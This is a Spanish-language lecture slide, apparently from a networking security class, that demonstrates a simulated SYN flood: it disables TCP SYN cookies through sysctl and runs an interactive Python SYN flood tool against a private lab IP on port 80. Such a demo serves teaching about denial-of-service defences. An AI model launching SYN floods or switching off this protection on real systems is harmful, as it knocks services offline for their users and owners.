

# Simulando un ataque…
Desactivamos TCP_SYNCOOKIES
	vi /etc/sysctl.conf
	net.ipv4.tcp_syncookies = 0
	sysctl -p
	Lanzamos un ataque contra la IP destino con 10000 paquetes
	python synfloodgon.py
	*****************************************************************					** SynFlood, an interactive tool to simulate a SynFlood Attach 	**
	** by Gonzalo Murillo https://github.com/GonzaloMurillo        	**
	*****************************************************************
Target IP : 10.60.36.178
Target Port : 80
How many packets do you want to send: 1000